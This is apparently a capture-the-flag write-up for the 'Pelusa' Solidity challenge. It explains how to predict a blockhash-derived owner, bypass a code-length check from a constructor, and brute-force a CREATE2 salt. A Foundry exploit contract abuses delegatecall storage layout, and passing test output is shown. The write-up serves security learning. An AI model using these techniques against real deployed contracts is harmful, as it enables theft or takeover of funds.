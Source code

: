 # Some challenges and solutions:
- It tries to hide the `owner`, but it's predictable, the `blockhash` can be easily obtained from a node server, or just from etherscan.com. Here, let's just use 0 as `blockhash` because it's the default value in Foundry.
- The check `msg.sender.code.length == 0` can be bypassed by calling from a contract's constructor.
- We need to predict our contract's address to bypass the `require(msg.sender % 100 == 10)`. That address can be calculated as: `keccak256(abi.encodePacked(0xff, sender, salt, hashOfInitCode))`, we brute force the `salt` to find the one that satisfies `% 100 == 10`, then deploy it using that `salt` like `new Player{salt: salt}(args)`.

- The return value of `delegatecall` is 32 bytes data, which is simply a `uint`.


# POC (Foundry)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "src/Pelusa.sol";

// Inherit from `Pelusa` to maintain same storage layout,
// so it's easier to modify `goals` variable
contract Player is Pelusa, IGame {
	address ballPossesion;

	// Use constructor to bypass the `msg.sender.code.length == 0`
	constructor(address pelusa, address _ballPossesion) {
		// set the `Pelusa.player`
		Pelusa(pelusa).passTheBall(); 

		ballPossesion = _ballPossesion;
	}

	function getBallPossesion() external view returns (address) {
		return ballPossesion;
	}

	function handOfGod() external returns(uint){
		goals ++;

		return 22_06_1986;
	}
}

contract SolvePelusa is Test {

    Pelusa pelusa;
	address pelusaOwner;

	function setUp() public {
		pelusa = new Pelusa();
	}

	function testPassTheBall() public {
		// 0. calculate the `Pelusa.owner` using its own algorithm
		bytes32 BLOCK_HASH_READ_FROM_NODE_SERVER; // foundry uses 0 as blockhash
        pelusaOwner = address(uint160(uint256(keccak256(
			abi.encodePacked(address(this), BLOCK_HASH_READ_FROM_NODE_SERVER)))));

		// 1. Brute force `salt` to find an address that matches the `%100==10`
		uint salt = bruteForceSalt(1000); // just try 1000 times
		require (uint(salt) != 0, "no valid salt");

		// 2. Set the `Pelusa.player`
		new Player{salt: bytes32(salt)}(
			address(pelusa), pelusaOwner 
		);

		// 3. shoot
		pelusa.shoot();

		require(pelusa.goals() == 2, "goals != 2");
	}

	function bruteForceSalt(uint max) private view returns(uint) {
		uint hashInitCode = uint(keccak256(abi.encodePacked(
			type(Player).creationCode, abi.encode(address(pelusa), pelusaOwner)
		)));

		for (uint salt=1; salt<=max; salt++) {
			uint160 numAddr = uint160(uint(keccak256(abi.encodePacked(
				bytes1(0xff), address(this), salt, hashInitCode))));

			if (numAddr % 100 == 10) {
				return salt;
			}
		}
		return 0;
	}
}
```

# output
> Running 1 test for test/SolvePelusa.t.sol:SolvePelusa
> 
> [PASS] testPassTheBall() (gas: 380225)
> 
> Test result: ok. 1 passed; 0 failed; finished in 887.51µs
